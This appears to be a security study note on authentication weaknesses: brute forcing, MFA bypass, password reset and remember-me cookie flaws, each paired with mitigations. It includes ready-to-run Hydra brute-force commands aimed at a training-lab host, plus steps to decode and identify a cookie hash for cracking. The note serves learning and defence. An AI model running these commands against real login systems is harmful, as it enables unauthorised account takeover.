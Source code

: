 # Authentication :unlock:
Vulnerabilities around logging into an application (proving your identity to that app).  Generally fall into two categories:

1. Login susceptible to brute force attacks.
1. Authentication can by bypassed entirely (broken authentication).

## Prevent

1. `Safeguard credentials`: strong encryption and password hashing.  Never pass or store credentials in plain text.
1. `Multi-factor authentication`: something you know (password), something you have (phone/token), and something you are (biometrics).
1. `Rate limiting, account locking and CAPTCHA`: prevent brute force attacks.
1. `Review authentication/authorization logic`: bugs can allow users to access resources they shouldn't be able to.
1. `Review secondary authentication logic`: new account and password reset flows can be vulnerable to account takeover.
1. `Prevent user enumeration`: do not use sequential user IDs, ensure error messages and request processing times are generic, and do not allow account enumeration via API endpoints.

## Password based vulnerabilities
### Brute forcing

Use a tool like [Hydra](https://github.com/vanhauser-thc/thc-hydra) or [Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder/using) to brute force a login form.  The tool will try a list of common usernames and passwords against the login form submission.

The following can all be used to perform user enumeration and hone the attack:

1. Error messages returned (Invalid username vs. Incorrect password)
1. Response times
1. Response status codes

This attack can be mitigated by IP based rate limiting, request throttling, account locking, MFA and CAPTCHAs.

```sh
# Brute force an https form POST submission
# You can get the $LOGIN_PATH and $FORM_SUBMIT_PAYLOAD using Burp Proxy or your browser's dev tools
hydra \
    -L "$FILE_WITH_USERNAMES" \
    -P "$FILE_WITH_PASSWORDS" \
    "$URL_OR_IP" \
    https-post-form "$LOGIN_PATH:$FORM_SUBMIT_PAYLOAD:$FAILURE_MESSAGE"

# Username and password list
hydra \
    -L usernames.list \
    -P passwords.list \
    web-security-academy.net \
    https-post-form "/login:username=^USER^&password=^PASS^:Invalid username"

# Known user and password list
hydra \
    -l the_big_cheese \
    -P passwords.list \
    web-security-academy.net \
    https-post-form "/login:username=^USER^&password=^PASS^:Invalid username"

# Known user and password list, checking for a 302 HTTP response code (success condition)
hydra \
    -l the_big_cheese \
    -P passwords.list \
    web-security-academy.net \
    https-post-form "/login:username=^USER^&password=^PASS^:S=302"
```

#### Considerations
- `Account locking`: can lead to user enumeration by indicating the account exists.  When an account is locked, the error message should remain generic.
- `Credential stuffing`: relies on people using the same password across multiple sites.  Uses a dictionary of `username:password` combinations and only tries each `username` once, thereby bypassing account locking.  This must be caught with rate limiting or throttling.
- `IP based rate limiting flaws`: if a successful login resets the rate limit counter, an attacker can bypass the rate limit by logging in with a valid account every `n` attempts.  Rate limiting should be unconditional for a set period based on the IP address.  This can be bypassed by using multiple IP addresses to conduct the attack.

## Multi-factor vulnerabilities

Vulnerabilities can include: 

- Checking the same factor twice (e.g. email based code) since this is only confirming the user knows their email login (both factors are "something you know").
- Using a weak factor (e.g. SMS based code) since this can be intercepted or fall victim to SIM card swapping.
- Second factor entry could be brute forced since it is usually a short number.
- Once login has succeeded and the second factor is requested, if there are flaws in the application logic, it may be possible to:
   - Bypass the second factor entirely by jumping directly to a page in the application.
   - User jump by altering the session cookie to login as a different user.

## Other vulnerabilities

- `Insecure password reset`:  allow an attacker to reset any user's password by guessing the reset link or altering the request to reset a different user's password.
- `Resetting passwords by mail`: sending a temporary password to a user's email address.  Email is considered insecure and there is a risk of that email being intercepted.  Only provide high-entropy password reset links by email.
- `Keeping users logged in`: relies on using a cookie.  If the cookie is insecure, an attacker can guess how to recreate it or alter a cookie for their own account to login as another user.  This can be mitigated by second factor verification.

### Keeping users logged in

A `remember me` cookie will include a value that can be used to authenticate the user.  As a result, it's susceptible to brute forcing if you can determine how the cookie value is generated.

```sh
# Remember me cookie example
Set-Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw;
```

Burp Proxy will automatically recognize the value as a base64 encoded string or you can decode it yourself:

```sh
# Decode the cookie value
echo "d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw" | base64 -d
weiner:51dc30ddc473d43a6011e9ebba6ca770
```

You can then use the following tools to determine the hash type and check the result for a known value:

```sh
# Identify hash type
hashid -m "$HASH"
hash-identifier "$HASH"

# Generate a hash of differnt types to compare against a known hashed value.
# The `-n` is required to prevent printing the newline character
# which would alter the hash returned.
echo -n "foo" | openssl dgst -md5
echo -n "bar" | openssl dgst -sha256
```

Once you know the hashing, you can begin brute forcing the hashed value using [Burp Intruder (view solution)](https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie).

## Tools
* [Hydra](https://github.com/vanhauser-thc/thc-hydra)
* [Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder/using)

## References
* https://portswigger.net/web-security/authentication
* https://portswigger.net/web-security/authentication/password-based
* https://portswigger.net/web-security/authentication/securing
